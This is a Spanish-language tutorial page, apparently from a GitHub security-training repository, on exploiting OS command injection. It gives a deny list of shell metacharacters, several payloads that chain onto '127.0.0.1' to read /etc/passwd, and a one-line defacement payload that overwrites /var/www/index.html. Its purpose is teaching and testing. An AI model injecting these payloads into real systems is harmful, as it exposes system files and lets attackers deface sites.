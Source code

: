 # Fz3r0 OWASP 💀🐝 - Command Injection 💉

## 💀 ¿Cómo explotar vulnerabilidad CMDI?

Una vez que se encontró la vulnerabilidad `in-band` o `blind` se procede a explotar de las siguientes maneras: 

### 💣 `In-Band CMDI: exploitation`

1. 💥 Utilizar `shell metacharacters` como [payload](https://github.com/Fz3r0/Fz3r0_-_Command_Injection/blob/main/12_Fz3r0_CMDI_-_Payloads/Command_Injection_Payloads.md) inicial:

````py
## General deny list to be included for command injection:
| ; & $ > < ' \ ! >> #

## Escape or filter special characters for --->>> Windows
( ) < > & * ‘ | = ? ; [ ] ^ ~ ! . " % @ / \ : + , `

## Escape or filter special characters for --->>> Linux
{ } ( ) > < & * ‘ | = ? ; [ ] $ – # ~ ! . " %  / \ : + , `

````

2. 💥 **Concatenar** comandos:

````py
## Concatena 127.0.0.1 + cat /etc/passwd + (concatena lo que sigue en el comando original con un &)

### Opción 1:
127.0.0.1 && cat /etc/passwd &

### Opción 2:
127.0.0.1 & cat /etc/passwd &

### Opción 3:
127.0.0.1 || cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

.
.
.

etc

````

- Algo un poco mas complejo como un `defacement` se podría ver algo así:

````sh
127.0.0.1 ; cp /var/www/index.html /var/www/index.bak && echo "Hola mundo, soy Fz3r0" > /var/www/index.html &
````



## 📖 Recursos

- [Port Swigger - Command Injection](https://portswigger.net/web-security/os-command-injection)
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [OWASP - Command Injection Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [OWASP - Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)
- [Udemy - Rana Khalil | Command Injection ](https://www.udemy.com/course/mastering-command-injection-the-ultimate-hands-on-course/learn/lecture/39297722#overview)
